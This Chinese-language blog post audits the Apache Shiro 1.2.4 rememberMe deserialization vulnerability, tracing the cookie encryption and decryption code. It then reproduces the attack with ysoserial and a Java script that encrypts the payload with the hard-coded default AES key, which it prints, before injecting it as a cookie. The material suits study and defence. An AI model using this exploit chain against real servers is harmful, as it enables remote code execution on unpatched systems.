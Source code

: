 
### 一、Apache Shiro 简介：


Apache Shiro提供了认证、授权、加密和会话管理功能，将复杂的问题隐藏起来，提供清晰直观的API使开发者可以很轻松地开发自己的程序安全代码。并且在实现此目标时无须依赖第三方的框架、容器或服务，当然也能做到与这些环境的整合，使其在任何环境下都可拿来使用。


Shiro将目标集中于Shiro开发团队所称的“四大安全基石”\-认证（Authentication）、授权（Authorization）、会话管理（Session Management）和加密（Cryptography）：


(1\) 认证（Authentication）：用户身份识别。有时可看作为“登录（login）”，它是用户证明自己是谁的一个行为。
(2\) 授权（Authorization）：访问控制过程，好比决定“认证（who）”可以访问“什么（what）”.
(3\) 会话管理（SessionManagement）：管理用户的会话（sessions），甚至在没有WEB或EJB容器的环境中。管理用户与时间相关的状态。
(4\) 加密（Cryptography）：使用加密算法保护数据更加安全，防止数据被偷窥。
对于任何一个应用程序，Shiro都可以提供全面的安全管理服务。并且相对于其他安全框架，Shiro要简单的多。


### 二、漏洞分析：


#### 1、漏洞产生流程：


(1\) 加密流程：
`值 -> 序列化 -> AES加密 -> base64编码 -> 生成一个 cookie值形成 rememberMe=cookie的形式`


(2\) 解密流程 (漏洞产生)：
`payload -> base64解码 -> AES解密 -> 反序列化 (造成反序列化漏洞)`


#### 2、漏洞代码审计：


##### (1\) 加密流程：


首先观察在 CookieRemembaerMeManager.java 中的 rememberSerializedIdentity 方法，它将序列化后的值进行 base64编码后的字符串设置为 cookie 的值：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921092617879-1743583748.png)


查看该方法在哪里被调用，跟进查看：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921092727662-339687649.png)


跟进可知 rememberSerializedIdentity方法被 rememberIdentity方法所调用：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921092828427-1430785528.png)


跟进查看 rememberIdentity方法：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921093018554-675753752.png)


可以看到在下面 rememberIdentity方法进行了函数重载：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921093317378-207200063.png)


继续跟进重载后的 rememberIdentity方法，可以发现该方法被 onSuccessfulLoogin方法调用：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921093444166-1276125941.png)


总体逻辑即为，登录成功后，会调用 AbstractRememberManager.onSuccessfulLogin方法，生成加密的 rememberMe\=cookie值，然后将这个生成的 cookie值 设置为用户的cookie值。


接着 在 if(isRememberMe(token))代码处打赏断点：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921093938538-595389778.png)


运行代码，进入Web端，输入默认口令，选中 "记住我" 即 rememberMe 选项，提交表单：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921094146818-2004511117.png)


回到代码断点位置，可以看到运行至断点处的 token的值：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921094332378-1398670223.png)


接下来进行跟进，逐步分析代码，跟进 isRememberMe方法，分析可知，这个方法的作用是判断用户有无勾选 rememberMe 选项，有则返回 true，否则返回 false：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921094641748-1990672294.png)


已知我们已经勾选了 rememberMe选项，返回 true，进入下一步调用 rememberIdentity方法：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921094902154-1356780263.png)


跟进 rememberIdentity方法，这个方法会首先生成一个 principalColletion对象\-\>principles，principles中保存用户的登录信息：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921095146186-1497377814.png)


下一步，调用 rememberIdentity方法，跟进该方法，通过分析代码可知，该方法首先调用 convertPrincipalsToBytes方法对 principles值进行一个序列化的操作：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921095624582-102413550.png)


跟进 convertPrincipalsToBytes方法，可以看到该方法先使用 serialize方法对 principles值进行序列化，然后调用 encrypt方法对序列化后的值进行加密：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921095823096-1238182447.png)


跟进 serialize方法，调用setSerializer()中的 serialize方法，继续跟进第二个 serialize方法，第二个serialize方法就是对参数值进行一个正常的序列化操作：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921100053372-1512839617.png)


步过 serialize方法，进入 if(getCipherService() !\= null) 的判断逻辑，跟进 getCipherService方法，通过分析，可以判断其是 aes加密：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921100528844-1439108680.png)


跟进 cipherService：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921100733327-525447561.png)


继续跟进，可以发现采用了硬编码的密钥，这也是 shiro(1\.2\.4\)反序列化漏洞产生的关键条件之一
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921101038096-146821827.png)


可以继续跟进，获取到该硬编码密钥，通过该密钥，攻击者可以对 payloads进行构造，是 shiro(1\.2\.4\)反序列化漏洞产生的关键条件之一
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921101144527-1200608424.png)


继续步过，进入 encrpt方法的加密逻辑：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921101340627-2053992715.png)


跟进 encrypt方法，该方法先获取 principles被序列化后的值，然后对该值使用 cipherService.encrypt方法进行加密：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921101546444-393743483.png)


跟进 cipherService.encrypt方法，该方法中，使用硬编码的key，iv向量进行了很经典的 AES加密：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921101828003-91137809.png)


通过以上逻辑总结可得，convertPrinciplesToBytes方法就是先对 principles值先进行了 序列化操作，然后对序列化后的值进行了 AES加密，但是 AES加密采用了固定的硬编码Key导致可逆，会被恶意利用。


步过 convertPrinciplesToBytes方法，进入 rememberSerializedIndentity方法的逻辑：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921102253625-822077080.png)


跟进 rememberSerializedIdentity方法，就是先对 序列化和加密后的值进行base64编码，并将编码后的值设置为用户的cookie值：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921102513117-693034489.png)


综上所述，加密流程即为：
principles值 \-\> 序列化 \-\> AES加密 \-\> base64编码 \-\> 生成一个 cookie值形成 rememberMe\=cookie的形式


##### (2\) 解密流程以及漏洞产生的原因：


有加密方法 encrypt，对应的也有解密方法，如下所示：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921103941684-1771964064.png)


向上层查看跟进 decrypt在哪里被调用：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921104142430-1847173897.png)


decrypt方法在 convertBytesToPrinciples方法中被调用，继续向上跟进 convertBytesToPrinciples方法在哪里被调用：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921104426318-1409169239.png)


如上图所示下断点，跟进查看 getRememberSerializedIdentity方法，发现 getRememberSerializedIdentity方法中会获取 请求包中的cookie的值并进行base64解密，这个获取到的cookie的值对于攻击者来说是可控的：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921104759311-1479728296.png)


步过进入 convertBytesToPrinciples方法：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921105438585-1485554860.png)


该方法首先使用 decrypt方法对 传入参数使用固定的硬编码Key进行aes解密操作：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921105655659-1906381436.png)


接着调用 deserialize方法对aes解密后的值进行反序列化，跟进deserialize方法：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921105800930-790117554.png)


继续跟进getSerializer().deserialize方法，发现 deserialize方法被进行了重写：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921105934165-1355661082.png)


继续跟进分析重写后的方法，使用了 readObject方法，导致了反序列化漏洞的产生：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921110112565-906560918.png)


解密流程与漏洞产生的基本逻辑如下：
`获取请求包中的cookie值 -> base64解码 -> aes解密 -> 反序列化`


但是由于请求包中的cookie值可控 以及 aes加密采用的是硬编码固定Key，导致攻击流程如下：
`攻击者构造payload命令 -> 手动序列化 -> 使用固定硬编码Key进行手动加密 -> 手动base64加密 -> 构造出完整的payload命令 -> 在请求包Cookie中构造 rememberMe=payload字段进行send发包 -> getRememberSerializedIdentity方法获取cookie值 -> base64解码 -> aes解密 -> 反序列化 -> readObject()函数导致产生反序列化漏洞。`


#### 3、漏洞攻击复现：


##### (1\) 复现工具：



```
(一) dnslog
(二) ysoserial
(三) 加密脚本

```

首先使用 ysoserial工具构造 java反序列化攻击payload：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921111540451-1200905920.png)


![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921111600511-7020074.png)


使用脚本对payload进行加密操作：



```
package org.XxxX.shiro;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import java.io.BufferedWriter;
import java.io.FileWriter;
import java.nio.file.FileSystems;
import java.nio.file.Files;

public class ShiroRememberMeGenPayload {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("C:/Users/lenovo/Desktop/代码审计/ysoserial-master/payload/payload.txt"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));  //硬编码固定Key值

        ByteSource ciphertext = aes.encrypt(payloads, key);
        BufferedWriter out = new BufferedWriter(new FileWriter("payload.txt"));  
        out.write(ciphertext.toString());
        out.close();
        System.out.printf("OK");

    }
}

```

运行代码生成 payload.txt：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921112110261-1223175925.png)


复制 payload值将其构造为 rememberMe\=payload 添加至 Cookie字段，然后放包：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921112324481-1907986335.png)


dnslog回显，即可证明漏洞存在：
![image](https://img2024.cnblogs.com/blog/3366919/202409/3366919-20240921112401349-1815962769.png)


 本博客参考[wgetCloud机场](https://tabijibiyori.org)。转载请注明出处！
